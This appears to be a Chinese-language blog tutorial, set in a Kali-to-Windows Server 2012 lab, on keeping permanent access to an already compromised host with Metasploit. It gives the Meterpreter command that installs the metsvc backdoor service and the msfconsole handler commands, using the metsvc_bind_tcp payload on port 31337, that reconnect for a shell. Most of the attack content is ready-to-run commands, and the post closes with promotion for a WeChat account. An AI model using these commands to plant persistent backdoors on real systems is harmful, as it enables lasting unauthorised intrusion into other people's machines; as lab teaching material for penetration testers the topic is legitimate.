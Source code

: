 ```yaml
---
layout: post
category: binghe-code-hack
title: kali Metasploit设置永久访问权限
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: Metasploit设置永久访问权限
lock: need
---
```


# Metasploit设置永久访问权限

攻击机： Kali 192.168.75.10

靶机： Windows Server 2012 192.168.75.130

此前提是经过一系列的渗透，已成功渗透靶机。

设置永久访问权限，需要在Meterpreter命令行中运行如下命令：

```
run metsvc -A
```

![img](https://img-blog.csdnimg.cn/20190115155420509.png)

当我们下次需要访问靶机的时候，只需要在攻击机上执行如下操作：

```
msfconsole
use exploit/multi/handler
set payload windows/metsvc_bind_tcp
set RHOST 192.168.75.130
set LPORT 31337
exploit
```

![img](https://img-blog.csdnimg.cn/20190115155455181.png)

看到，我们已经成功拿到Shell。

# 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)